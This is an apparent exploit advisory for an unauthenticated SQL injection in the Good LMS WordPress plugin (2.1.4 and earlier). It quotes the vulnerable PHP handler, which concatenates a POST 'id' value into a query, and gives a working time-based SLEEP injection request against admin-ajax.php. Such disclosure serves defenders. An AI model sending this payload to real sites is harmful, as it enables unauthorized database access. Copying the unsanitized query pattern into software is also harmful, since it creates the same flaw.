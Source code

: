 
## Wordpress Plugin Good LMS 2.1.4 - 'id' Unauthenticated SQL Injection
## Software Link: https://codecanyon.net/item/good-lms-learning-management-system-wp-plugin/9033850
## Version: <= 2.1.4
## Tested on: linux/apache
## Vulnerability Type :SQL Injection





Unauthenticated SQL Injection in Good Layers LMS Plugin <= 2.1.4



```
Plugin URL: https://codecanyon.net/item/good-lms-learning-management-system-wp-plugin/9033850
```

 
## Vulnerability Description AND recurrence:

Following is the vulnerable code in file "goodlayers-lms/include/lightbox-form.php" from line 682 to 701

```
add_action( 'wp_ajax_gdlr_lms_cancel_booking', 'gdlr_lms_cancel_booking' );
add_action( 'wp_ajax_nopriv_gdlr_lms_cancel_booking', 'gdlr_lms_cancel_booking' );
function gdlr_lms_cancel_booking(){
global $wpdb;

$sql = 'SELECT * FROM ' . $wpdb->prefix . 'gdlrpayment ';
$sql .= 'WHERE id=' . $_POST['id'] . ' AND ';
$sql .= '(payment_status=\'pending\' OR payment_status=\'submitted\' OR payment_status=\'reserved\')';
$booked_course = $wpdb->get_row($sql);
if( !empty($booked_course) ){
$payment_info = unserialize($booked_course->payment_info);

$course_options = gdlr_lms_get_course_options($booked_course->course_id);
$course_options['booked-seat'] = intval($course_options['booked-seat']) - intval($payment_info['amount']);
update_post_meta($booked_course->course_id, 'gdlr-lms-course-settings', wp_slash(json_encode($course_options, JSON_UNESCAPED_UNICODE)));

$wpdb->delete( $wpdb->prefix . 'gdlrpayment', array('id'=>$_POST['id']), array('%d'));
}
die("");
}
```



Line 682 means that function "gdlr_lms_cancel_booking" can be called using "/wp-admin/admin-ajax.php" by having any low privileged account such as subscriber or contributor. However the "nopriv" in line 683 means that the same function "gdlr_lms_cancel_booking" can also be called as an unauthenticated user. Following URL means that an attacker is already inside function "gdlr_lms_cancel_booking".

 

```
http://www.example.com/wp-admin/admin-ajax.php?action=gdlr_lms_cancel_booking
```

 


SQL Injection on line 688 is pretty simple to understand that an arbitrary user input in POST Request is sent straight into the MySQL Query as variable "id"


 

```
$sql .= 'WHERE id=' . $_POST['id'] . ' AND ';
```

 

```
Following are the Request Headers as POC which demonstrates MySQL SLEEP Query.
```

 

POST:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

action=gdlr_lms_cancel_booking&id=(SELECT 1337 FROM (SELECT(SLEEP(10)))MrMV)
```

 


